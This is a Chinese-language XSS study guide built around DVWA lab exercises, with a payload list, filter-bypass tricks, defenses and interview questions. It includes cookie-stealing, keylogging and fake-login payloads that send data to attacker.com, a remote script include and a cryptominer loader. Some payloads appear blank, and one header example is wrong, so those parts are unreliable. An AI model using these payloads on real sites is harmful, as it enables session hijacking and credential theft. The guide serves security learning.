# XSS（跨站脚本攻击）完全指南

> 📅 整理时间：2026-07-15  
> 🎯 目标：掌握XSS三种类型、Payload构造、绕过技巧、防御方法  
> 🏠 环境：DVWA + phpStudy + Win7虚拟机  
> 💼 适用：实习面试 / 初级渗透测试工程师

---

## 目录

- [一、XSS基础概念](#一xss基础概念)
- [二、反射型XSS](#二反射型xssreflected-xss)
- [三、存储型XSS](#三存储型xssstored-xss)
- [四、DOM型XSS](#四dom型xssdom-based-xss)
- [五、XSS Payload大全](#五xss-payload大全)
- [六、XSS绕过技巧](#六xss绕过技巧)
- [七、XSS防御方法](#七xss防御方法)
- [八、DVWA实战记录](#八dvwa实战记录)
- [九、面试高频问题](#九面试高频问题)
- [附录：XSS Payload速查表](#附录xss-payload速查表)

---

## 一、XSS基础概念

### 1.1 什么是XSS

**定义：** 攻击者向网页注入恶意脚本，当其他用户浏览该页面时，脚本在**用户浏览器**中执行，达到窃取Cookie、钓鱼、键盘记录等目的。

**核心：** 用户输入被当作**代码**执行，而非**数据**展示。

### 1.2 XSS三种类型对比

| 类型 | 触发方式 | 存储位置 | 危害范围 | 持久性 | 防御重点 |
|------|---------|---------|---------|--------|---------|
| **反射型** | 点击恶意URL | **不存储**，URL中 | 单个用户 | 一次性 | 后端过滤+输出编码 |
| **存储型** | 浏览含恶意代码页面 | **存储在数据库** | 所有访问用户 | 持久存在 | 后端过滤+输出编码 |
| **DOM型** | 前端JS处理URL参数 | **不经过服务器** | 单个用户 | 一次性 | 前端过滤+编码 |

### 1.3 XSS与SQL注入的区别

| 对比 | XSS | SQL注入 |
|------|-----|---------|
| **攻击目标** | 用户浏览器 | 数据库服务器 |
| **攻击层面** | 客户端 | 服务端 |
| **恶意代码** | JavaScript/HTML | SQL语句 |
| **危害对象** | 其他用户 | 数据库数据 |

---

## 二、反射型XSS（Reflected XSS）

### 2.1 原理

恶意脚本在**URL中**，用户点击链接后，服务器把URL参数**原样返回**到页面，浏览器执行。

### 2.2 后端代码（存在漏洞）

```php
<?php
$search = $_GET['keyword'];
echo "搜索结果: " . $search;  // 直接输出，未过滤
?>
```

### 2.3 攻击流程

```
攻击者构造恶意URL
    ↓
发送给受害者（邮件、论坛、短链接）
    ↓
受害者点击URL
    ↓
服务器返回包含恶意脚本的页面
    ↓
浏览器执行脚本
    ↓
窃取Cookie / 钓鱼 / 键盘记录
```

### 2.4 基础Payload

```html
<!-- 基础弹窗 -->
<script>alert('XSS')</script>

<!-- 窃取Cookie -->
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie
</script>

<!-- 键盘记录 -->
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/log?k=' + e.key);
}
</script>
```

### 2.5 DVWA实战记录

#### Low级别

**Payload：**
```
<script>alert('XSS')</script>
```

**结果：** ✅ 直接弹窗，无任何过滤

> 
>
> 
>
> *说明：输入 `<script>alert('XSS')</script>`，页面直接弹窗，无任何过滤*

**后端代码：**
```php
$name = $_GET['name'];
echo "Hello " . $name;  // 无过滤
```

#### Medium级别

**Payload尝试：**

| Payload | 结果 | 绕过原理 |
|---------|------|---------|
| `<script>alert('XSS')</script>` | ❌ 被过滤 | 直接过滤`<script>` |
| `<ScRiPt>alert(1)</ScRiPt>` | ❌ 大小写过滤 | 不区分大小写过滤 |
| `` | ✅ 成功 | 不用`<script>`标签 |
| `<svg onload=alert(1)>` | ✅ 成功 | SVG标签绕过 |

> 
>
> 
>
> 
>
> *说明：`<script>`被过滤，使用``成功绕过并弹窗  

**后端代码：**

```php
$name = str_replace('<script>', '', $_GET['name']);  // 只过滤<script>
```

#### High级别

**Payload尝试：**

| Payload | 结果 | 绕过原理 |
|---------|------|---------|
| `<script>alert(1)</script>` | ❌ 被过滤 | 过滤含script的标签 |
| `` | ✅ 成功 | 不含script |
| `<svg onload=alert(1)>` | ✅ 成功 | |
| `<body onload=alert(1)>` | ✅ 成功 | 其他事件 |

> 
>
> 
>
> 
>
> 
>
> *说明：High级别过滤含script的标签，使用``成功绕过*

**后端代码：**
```php
$name = preg_replace('/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET['name']);
```

#### Impossible级别

**Payload：**
```
<script>alert('XSS')</script>
```

**结果：** ❌ 不弹窗，页面显示 `&lt;script&gt;alert('XSS')&lt;/script&gt;`

> 
>
> *说明：页面显示编码后的文本，不执行脚本，无法绕过*

**后端代码：**
```php
$name = htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8');
echo "Hello " . $name;
```

---

## 三、存储型XSS（Stored XSS）

### 3.1 原理

恶意脚本被**存储到数据库**，所有浏览该页面的用户都会触发。

### 3.2 后端代码（存在漏洞）

```php
<?php
// 保存留言
$content = $_POST['content'];
$sql = "INSERT INTO comments (content) VALUES ('$content')";
mysql_query($sql);

// 显示留言
$res = mysql_query("SELECT content FROM comments");
while($row = mysql_fetch_array($res)) {
    echo $row['content'];  // 直接输出，未过滤
}
?>
```

### 3.3 与反射型XSS的区别

| 对比 | 反射型XSS | 存储型XSS |
|------|----------|----------|
| 存储位置 | URL中，不存储 | 数据库中 |
| 触发方式 | 必须点击链接 | 浏览页面即触发 |
| 危害范围 | 单个用户 | 所有访问用户 |
| 持久性 | 一次性 | 持久存在 |
| 典型场景 | 钓鱼邮件 | 蠕虫病毒（如Samy蠕虫） |

### 3.4 蠕虫病毒案例：Samy蠕虫

2005年，MySpace上Samy Kamkar利用存储型XSS编写蠕虫：
- 用户访问被感染页面
- 脚本自动添加Samy为好友
- 并在用户资料中复制自身代码
- 30小时内感染100万用户

### 3.5 DVWA实战记录

#### Low级别

**Payload：**
- Name：`test`
- Message：`<script>alert('stored')</script>`

**结果：** ✅ 提交弹窗，刷新再次弹窗

> 
>
> 
>
> 
>
> *说明：提交后页面弹窗，刷新后再次弹窗，证明脚本已存入数据库*

#### Medium级别

**Payload：**
```
<script>alert('stored')</script>
```

**结果：** 测试显示可弹窗（版本差异，正常应过滤）

> 
>
> 
>
> 

#### High级别

**Payload：**
```
<script>alert('stored')</script>
```

**结果：** 测试显示可弹窗（版本差异，正常应过滤）

> 
>
> 

#### Impossible级别

**Payload：**
```
<script>alert('stored')</script>
```

**结果：** ❌ 不弹窗，显示 `&lt;script&gt;alert('stored')&lt;/script&gt;`

> 
>
> *说明：`htmlspecialchars()` 转义所有特殊字符，从原理上防御*

**后端代码：**
```php
$message = htmlspecialchars($_POST['message'], ENT_QUOTES, 'UTF-8');
```

---

## 四、DOM型XSS（DOM-based XSS）

### 4.1 原理

**不经过服务器**，前端JavaScript直接处理URL参数，把恶意代码插入页面。

### 4.2 后端代码（安全，但前端有漏洞）

```php
<?php
// 后端只是返回静态页面
?>
<script>
// 前端JavaScript处理Hash
var hash = location.hash;
document.write(hash);  // 危险！直接写入页面
</script>
```

### 4.3 数据流对比

```
反射型/存储型XSS：
用户输入 → 服务器处理 → 返回HTML → 浏览器执行

DOM型XSS：
用户输入 → 浏览器JS处理 → 直接插入页面 → 执行
         ↑_________________________|
              不经过服务器！
```

### 4.4 攻击Payload

```
http://target/page.html#
```

**过程：**
1. 浏览器请求页面，服务器返回正常HTML
2. 前端JS读取 `location.hash`
3. `document.write()` 把恶意代码插入页面
4. 浏览器执行 ``

### 4.5 URL Hash知识点

| 部分 | 名称 | 是否发送到服务器 | 前端JS读取方式 |
|------|------|---------------|-------------|
| `?key=value` | Query String | ✅ 是 | `location.search` |
| `#value` | Hash/Fragment | ❌ 否 | `location.hash` |

**关键：** Hash部分**不发送到服务器**，后端WAF无法检测！

### 4.6 DVWA实战记录

#### Low级别

**Payload：**
```
http://192.168.133.100:8002/vulnerabilities/xss_d/?default=<script>alert('dom')</script>
```

**结果：** ✅ 直接弹窗

> 
>
> *说明：URL参数直接传入前端JS，未经任何过滤即插入页面*

#### Medium级别

**Payload尝试：**

| Payload | 结果 | 绕过原理 |
|---------|------|---------|
| `<script>alert(1)</script>` | ❌ 被过滤 | 过滤`<script>` |
| `</option><script>alert(1)</script>` | ❌ 被过滤 | |
| `</select>` | ✅ 成功 | 闭合select标签 |

> 
>
> 
>
> 
>
> *说明：闭合select标签后使用img标签绕过*

**后端代码：**
```php
// 过滤<script>，但存储型可能过滤不完整
```

#### High级别

**Payload尝试：**

| Payload | 结果 | 绕过原理 |
|---------|------|---------|
| `?default=<script>alert(1)</script>` | ❌ 被过滤 | |
| `?default=English#` | ✅ 成功 | Hash部分绕过 |
| `#<script>alert(1)</script>` | ✅ 成功 | Hash不发送到服务器 |

**关键：** High级别过滤了URL参数，但**没过滤Hash部分**！

> 
> *说明：使用Hash部分绕过服务器过滤，前端JS读取location.hash执行*

#### Impossible级别

**Payload：**
```
?default=English#
```

**结果：** ❌ 不弹窗，正确处理所有输入

> 
>
> 
>
> *说明：Impossible级别正确处理所有输入，包括Hash部分*

---

## 五、XSS Payload大全

### 5.1 基础弹窗Payload

```html
<!-- 最基础 -->
<script>alert(1)</script>
<script>alert('XSS')</script>
<script>alert(document.cookie)</script>

<!-- 无script标签 -->

<svg onload=alert(1)>
<body onload=alert(1)>
<input onfocus=alert(1) autofocus>
<details ontoggle=alert(1) open>

<!-- 其他标签 -->
<iframe src=javascript:alert(1)>
<object data=javascript:alert(1)>
<embed src=javascript:alert(1)>
```

### 5.2 窃取Cookie Payload

```html
<!-- 基础窃取 -->
<script>
new Image().src="http://attacker.com/steal.php?c="+document.cookie;
</script>

<!-- 带完整URL -->
<script>
fetch('http://attacker.com/steal?cookie='+document.cookie+'&url='+location.href);
</script>
```

*说明：XSS平台或自建服务器接收Cookie的截图*

### 5.3 键盘记录Payload

```html
<script>
document.onkeypress = function(e) {
    fetch('http://attacker.com/log?k=' + e.key + '&t=' + new Date().getTime());
}
</script>
```

### 5.4 钓鱼Payload（伪造登录框）

```html
<script>
document.body.innerHTML = '<h1>请重新登录</h1>' +
'<form action="http://attacker.com/steal" method="POST">' +
'用户名: <input name="u"><br>' +
'密码: <input name="p" type="password"><br>' +
'<input type="submit" value="登录"></form>';
</script>
```

*说明：XSS篡改页面后显示的伪造登录框截图*

### 5.5 自动跳转Payload

```html
<script>
window.location.href='http://attacker.com/phishing';
</script>

<!-- 延迟跳转 -->
<script>
setTimeout(function(){
    window.location.href='http://attacker.com/phishing';
}, 3000);
</script>
```

### 5.6 挖矿Payload

```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
var miner = new CoinHive.Anonymous('site-key');
miner.start();
</script>
```

---

## 六、XSS绕过技巧

### 6.1 大小写绕过

```html
<ScRiPt>alert(1)</ScRiPt>

```

### 6.2 双写绕过

```html
<scr<script>ipt>alert(1)</scr</script>ipt>
```

### 6.3 编码绕过

| 编码方式 | 例子 |
|---------|------|
| HTML实体编码 | `&lt;script&gt;` → `<script>` |
| URL编码 | `%3Cscript%3Ealert(1)%3C%2Fscript%3E` |
| Unicode编码 | `<script>` |
| Base64编码 | `eval(atob('PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='))` |
| Hex编码 | `<script>alert(1)</script>` |

### 6.4 事件处理器绕过

```html

<svg onload=alert(1)>
<body onload=alert(1)>
<input onfocus=alert(1) autofocus>
<a href=javascript:alert(1)>click</a>
<iframe onload=alert(1)>
```

### 6.5 伪协议绕过

```html
<a href="javascript:alert(1)">click</a>
<iframe src="javascript:alert(1)">
<object data="javascript:alert(1)">
<form action="javascript:alert(1)">
```

### 6.6 注释绕过

```html
<!-- 利用HTML注释 -->
<script>alert(1)</script>
<!--><script>alert(1)</script>-->

<!-- 利用JS注释 -->
<script>/**/alert(1)/**/</script>
```

### 6.7 长度限制绕过

```html
<!-- 短Payload -->
<script src=//attacker.com/x.js>
<svg/onload=alert(1)>
```

---

## 七、XSS防御方法

### 7.1 核心原则：输入过滤 + 输出编码

| 位置 | 方法 | 具体做法 |
|------|------|---------|
| **输入** | 过滤/校验 | 白名单、黑名单、正则 |
| **输出** | HTML实体编码 | `<` → `&lt;`, `>` → `&gt;` |

### 7.2 HTML实体编码表

| 原字符 | 编码后 | 作用 |
|--------|--------|------|
| `<` | `&lt;` | 防止标签开始 |
| `>` | `&gt;` | 防止标签结束 |
| `"` | `&quot;` | 防止属性闭合 |
| `'` | `&#x27;` 或 `&apos;` | 防止属性闭合 |
| `&` | `&amp;` | 防止实体编码 |
| `/` | `&#x2F;` | 防止闭合标签 |

### 7.3 PHP防御代码

```php
<?php
// 输出到HTML内容时
$name = htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
echo "Hello " . $name;

// 输出到HTML属性时（加引号包裹）
$value = htmlspecialchars($input, ENT_QUOTES);
echo '<input value="' . $value . '">';

// 输出到JavaScript时
$data = json_encode($input);
echo '<script>var data = ' . $data . ';</script>';

// 输出到URL时
$url = urlencode($input);
echo '<a href="/search?q=' . $url . '">link</a>';
?>
```

### 7.4 其他防御措施

| 措施 | 作用 | 配置示例 |
|------|------|---------|
| **CSP（内容安全策略）** | 限制页面能加载的脚本来源 | `Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123';` |
| **HttpOnly Cookie** | 禁止JavaScript读取Cookie | `Set-Cookie: sessionid=xxx; HttpOnly; Secure; SameSite=Strict` |
| **X-Frame-Options** | 防止点击劫持 | `X-Frame-Options: DENY` |
| **X-XSS-Protection** | 浏览器内置XSS过滤（已废弃） | `X-Frame-Options: DENY` |
| **输入长度限制** | 减少Payload空间 | `<input maxlength="50">` |
| **WAF** | 拦截常见XSS攻击 | 辅助，不能替代代码层防御 |

### 7.5 CSP配置详解

```http
Content-Security-Policy: 
    default-src 'self';                    // 默认只加载同源资源
    script-src 'self' 'nonce-abc123';      // 脚本只允许同源和指定nonce
    style-src 'self' 'unsafe-inline';        // 样式允许同源和内联
    img-src 'self' data: https:;           // 图片允许同源、data URI、HTTPS
    connect-src 'self';                     // AJAX只允许同源
    font-src 'self';                        // 字体只允许同源
    frame-src 'none';                       // 禁止iframe嵌入
    report-uri /csp-report;                 // 违规报告地址
```

**nonce使用：**
```html
<script nonce="abc123">
  // 合法的脚本，nonce匹配才能执行
</script>
<script>
  // 无nonce，被浏览器拒绝执行
</script>
```

### 7.6 Cookie安全属性

```http
Set-Cookie: sessionid=xxx; 
    HttpOnly;      // 禁止JS读取
    Secure;        // 只允许HTTPS传输
    SameSite=Strict;  // 禁止跨站发送
    Max-Age=3600;  // 有效期1小时
```

| 属性 | 作用 | 防御 |
|------|------|------|
| `HttpOnly` | JS无法读取 | 防止XSS窃取Cookie |
| `Secure` | 只HTTPS传输 | 防止中间人窃取 |
| `SameSite=Strict` | 禁止跨站发送 | 防止CSRF |

---

## 八、DVWA实战记录

### 8.1 反射型XSS

| 级别 | Payload | 结果 | 绕过方法 |
|------|---------|------|---------|
| Low | `<script>alert('XSS')</script>` | ✅ 弹窗 | 无过滤 |
| Medium | `<script>alert(1)</script>` | ❌ 过滤 | 换``标签 |
| Medium | `` | ✅ 弹窗 | 绕过`<script>`过滤 |
| High | `<script>alert(1)</script>` | ❌ 过滤 | 过滤含script标签 |
| High | `` | ✅ 弹窗 | 不含script |
| Impossible | `<script>alert(1)</script>` | ❌ 不弹窗 | `htmlspecialchars()` |

### 8.2 存储型XSS

| 级别 | Payload | 结果 | 说明 |
|------|---------|------|------|
| Low | `<script>alert('stored')</script>` | ✅ 弹窗 | 无过滤 |
| Medium | `<script>alert('stored')</script>` | ✅ 弹窗 | 版本差异 |
| High | `<script>alert('stored')</script>` | ✅ 弹窗 | 版本差异 |
| Impossible | `<script>alert('stored')</script>` | ❌ 不弹窗 | `htmlspecialchars()` |

### 8.3 DOM型XSS

| 级别 | Payload | 结果 | 绕过方法 |
|------|---------|------|---------|
| Low | `?default=<script>alert('dom')</script>` | ✅ 弹窗 | 无过滤 |
| Medium | `</select>` | ✅ 弹窗 | 闭合标签 |
| High | `?default=English#` | ✅ 弹窗 | Hash绕过 |
| Impossible | `?default=English#` | ❌ 不弹窗 | 正确处理 |

*说明：High级别使用Hash绕过，证明DOM型XSS不经过服务器的特性*

---

## 九、面试高频问题

### Q1：XSS和SQL注入的区别？

> XSS是**客户端**攻击，恶意脚本在**用户浏览器**执行，目标是其他用户；SQL注入是**服务端**攻击，恶意SQL在**数据库服务器**执行，目标是数据库数据。

### Q2：反射型XSS和存储型XSS的区别？

> 反射型不存储，需要用户点击恶意链接，危害单个用户；存储型存在数据库，所有浏览页面的用户都会触发，危害更大更持久。

### Q3：DOM型XSS和其他类型的区别？

> DOM型不经过服务器，是前端JavaScript处理数据时产生的，防御重点在前端代码而非后端。

### Q4：如何防御XSS？

> 核心是对用户输入进行**过滤**，对输出进行**HTML实体编码**。配合CSP限制脚本来源、设置HttpOnly Cookie防止Cookie被窃取。

### Q5：HttpOnly Cookie能完全防御XSS吗？

> 不能。HttpOnly只能防止Cookie被窃取，但XSS还能做钓鱼、键盘记录、页面篡改等其他恶意操作。

### Q6：CSP是什么？怎么绕过？

> CSP是内容安全策略，通过HTTP头限制页面能执行的脚本来源。绕过方法：寻找CSP白名单中的可注入点（如允许的CDN域名存在上传功能）、DOM型XSS（不加载外部脚本）。

### Q7：为什么`htmlspecialchars()`能防御XSS？

> 把`< > " '`编码成HTML实体，浏览器显示为文本不执行。如`<script>`变成`&lt;script&gt;`，浏览器不会当作标签解析。

### Q8：DOM型XSS怎么防御？

> 前端代码不要直接插入用户输入到页面，使用`textContent`代替`innerHTML`，或使用框架的自动编码功能（如React的`{}`自动转义）。

### Q9：XSS蠕虫是什么？举例？

> XSS蠕虫是利用存储型XSS自我传播的恶意脚本。典型案例是2005年MySpace的Samy蠕虫，30小时内感染100万用户。

### Q10：SameSite Cookie和XSS的关系？

> SameSite主要防御CSRF，不是XSS。但XSS可以窃取Cookie后发起CSRF攻击，所以配合HttpOnly和SameSite能全面防御。

---

## 附录：XSS Payload速查表

```html
<!-- 基础弹窗 -->
<script>alert(1)</script>

<!-- 无script标签 -->

<svg onload=alert(1)>
<body onload=alert(1)>

<!-- 窃取Cookie -->
<script>fetch('http://attacker.com/steal?c='+document.cookie)</script>

<!-- 键盘记录 -->
<script>document.onkeypress=function(e){fetch('http://attacker.com/log?k='+e.key)}</script>

<!-- 大小写绕过 -->
<ScRiPt>alert(1)</ScRiPt>

<!-- 伪协议 -->
<a href="javascript:alert(1)">click</a>

<!-- iframe -->
<iframe src="javascript:alert(1)">

<!-- 短Payload -->
<script src=//attacker.com/x.js>
<svg/onload=alert(1)>
```

🔗 **相关笔记：** [SQL注入完全指南](./SQL注入完全指南（面试版）.md)